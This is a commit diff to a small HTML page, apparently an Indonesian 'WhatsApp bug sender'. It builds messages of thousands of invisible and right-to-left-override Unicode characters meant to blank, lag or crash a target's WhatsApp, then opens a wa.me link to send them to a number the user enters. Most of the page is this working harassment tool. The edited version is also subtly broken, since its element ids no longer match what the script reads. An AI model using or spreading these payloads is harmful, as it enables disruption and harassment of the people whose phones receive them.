

Before and after one commit to BabyCpanel/Baby, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,25 +2,26 @@
 <html lang="id">
 <head>
   <meta charset="UTF-8">
-  <title>BUG WA PERMANEN SENDER</title>
+  <title>BUG WA AUTO-ADD</title>
   <style>
     body {
-      background-color: #111;
+      background-color: #121212;
       color: #fff;
-      font-family: sans-serif;
+      font-family: Arial, sans-serif;
       text-align: center;
       padding: 40px;
     }
     input, select, button {
+      padding: 12px;
       margin: 10px;
-      padding: 10px;
+      border-radius: 10px;
       font-size: 18px;
-      width: 300px;
-      border-radius: 10px;
       border: none;
+      width: 80%;
+      max-width: 400px;
     }
     button {
-      background-color: #25D366;
+      background: #25D366;
       color: white;
       font-weight: bold;
       cursor: pointer;
@@ -28,12 +29,12 @@
   </style>
 </head>
 <body>
-  <h1>💣 BUG WA SENDER</h1>
-  <input id="nomor" placeholder="Masukkan nomor WA, contoh: 62812xxxxx" /><br>
-  <select id="jenis">
-    <option value="blank">🕳️ Blank Text</option>
-    <option value="ui">🐢 UI Delay</option>
-    <option value="crash">💥 Crash Ringan</option>
+  <h2>💥 BUG WA AUTO-ADD + SENDER</h2>
+  <input id="6288212464391" placeholder="Contoh: 6288212464391"><br>
+  <select id="nomor">
+    <option value="blank">Blank Bug</option>
+    <option value="ui">UI Delay</option>
+    <option value="crash">Crash Ringan</option>
   </select><br>
   <button onclick="kirim()">KIRIM SEKARANG</button>
 
@@ -41,22 +42,21 @@
     function getBug(jenis) {
       if (jenis === "blank") return "\u2063".repeat(6000);
       if (jenis === "ui") return "\u200F\u202E\u2063\u3164".repeat(5000);
-      if (jenis === "crash") return "\u202E".repeat(1000) + "🔒".repeat(500);
+      if (jenis === "crash") return "\u202E".repeat(1500) + "🔒".repeat(500);
     }
 
     function kirim() {
-      const nomor = document.getElementById("nomor").value.trim();
-      const jenis = document.getElementById("jenis").value;
-      const bug = encodeURIComponent(getBug(jenis));
+      let nomor = document.getElementById("nomor").value.trim();
+      let jenis = document.getElementById("jenis").value;
 
       if (!nomor.startsWith("62")) {
-        alert("Nomor harus diawali dengan 62");
+        alert("Gunakan nomor awalan 62 (Indonesia)");
         return;
       }
 
-      // Kirim via WhatsApp Web
-      const link = `https://wa.me/${nomor}?text=${bug}`;
-      window.open(link, "_blank");
+      let bug = encodeURIComponent(getBug(jenis));
+      let waUrl = `https://wa.me/${nomor}?text=${bug}`;
+      window.open(waUrl, "_blank");
     }
   </script>
 </body>
```
